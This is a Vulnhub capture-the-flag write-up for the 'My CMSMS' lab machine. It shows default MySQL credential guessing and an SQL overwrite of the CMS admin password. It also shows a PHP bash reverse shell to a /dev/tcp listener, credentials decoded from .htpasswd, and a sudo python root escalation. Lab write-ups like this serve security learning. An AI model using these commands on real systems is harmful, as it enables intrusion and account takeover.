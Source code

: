 ```yaml
---
title: Vulnhub - My CMSMS
description: My writeup on My CMSMS box.
categories:
 - vulnhub
tags: vulnhub cmsms MyCMSMS mysql shell python
---
```


![](https://pixelita.com/wp-content/uploads/2016/04/cmsms-logo-720.png)

Hi all, that was an awesome VM, easy but interesting.

You can find the machine there > [My CMSMS](https://www.vulnhub.com/entry/my-cmsms-1,498/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-30 00:15 EEST
Nmap scan report for mycmsms.zte.com.cn (192.168.1.9)
Host is up (0.00038s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
|_  256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-generator: CMS Made Simple - Copyright (C) 2004-2020. All rights reserved.
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Home - My CMS
3306/tcp  open  mysql
```

Mysql allows remote connections, that's great! So mysql default credentials are `root:<no_password>` let's try that : 

```
$ mysql -u root -h $ip -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'xxxxx' (using password: NO)
```

Damn, then i had another idea to test for `root:root` : 

```
$ mysql -u root -h $ip -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 101
Server version: 8.0.19 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

## Admin's password change using mysql

That worked! Now on port 80 runs `CMS Made Simple` with mysql we can change admin's password! I found a great [guide](https://cmscanbesimple.org/blog/cms-made-simple-admin-password-recovery){:target="_blank"}

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cmsms_db           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.007 sec)

MySQL [(none)]> use cmsms_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [cmsms_db]> show tables;
+--------------------------------+
| Tables_in_cmsms_db             |
+--------------------------------+
| ..junk tables..                |
| cms_userprefs                  |
| cms_users                      |
| cms_users_seq                  |
| cms_version                    |
+--------------------------------+
53 rows in set (0.004 sec)

MySQL [cmsms_db]> select * from cms_users;
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
| user_id | username | password                         | admin_access | first_name | last_name | email             | active | create_date         | modified_date       |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
|       1 | admin    | fb67c6d24e756229aab021cea7605fb3 |            1 |            |           | admin@mycms.local |      1 | 2020-03-25 09:38:46 | 2020-03-26 10:49:17 |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
1 row in set (0.001 sec)

MySQL [cmsms_db]> 
```

Let's change his password now :

```
MySQL [cmsms_db]> update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'pwned'))) where username = 'admin'
    -> ;
Query OK, 1 row affected (0.005 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Now we can login in, admin panel is under `/admin` -> `admin:pwned`

![](https://i.imgur.com/a6vuevX.png)

## Shell as www-data

Now i stucked for lot of minutes, i was like how the fuck can i take a reverse shell. Isn't wordpress/joomla or something similar after lot of enumeration and tries i found a way :D Follow my steps, this can be useful for future CTFs :)

![](https://i.imgur.com/9dQVENX.png)

![](https://i.imgur.com/rathhHr.png)

![](https://i.imgur.com/f28egNC.png)

Now we can see the results under : `http://$ip/index.php?page=user-defined-tags`

![](https://i.imgur.com/629oShV.png)

We can simply add a reverse shell now : 

```php
system("bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'");
```

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@mycmsms:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mycmsms:/var/www/html$ 
```

## www-data -> armour

Now privesc is really easy, under `/admin` we can see this :

```
www-data@mycmsms:/var/www/html/admin$ ls -la
ls -la
total 340
drwxr-xr-x  6 www-data www-data  4096 Jun 24 20:12 .
drwxr-xr-x 10 root     root      4096 May 31 04:09 ..
-rw-r--r--  1 www-data www-data   472 Mar 26 03:48 .htaccess
-rw-r--r--  1 www-data www-data    45 Jun 24 20:12 .htpasswd
```

`.htpasswd` contains a base64/base32 encoded string.

```
www-data@mycmsms:/var/www/html/admin$ cat .htpasswd
cat .htpasswd
TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=
www-data@mycmsms:/var/www/html/admin$ echo TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0= | base64 -d | base32 -d
armour:Shield@123

www-data@mycmsms:/var/www/html/admin$ su - armour
su - armour
Password: Shield@123

armour@mycmsms:~$ 
```

## armour -> root

Now if we check `sudo -l` we can see that we run python as root : 

```
armour@mycmsms:~$ sudo -l
sudo -l
Matching Defaults entries for armour on mycmsms:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User armour may run the following commands on mycmsms:
    (root) NOPASSWD: /usr/bin/python
armour@mycmsms:~$ sudo python -c 'import pty; pty.spawn("/bin/bash")'
root@mycmsms:/home/armour# whoami;id
whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Was fun, enjoyed a lot! :D
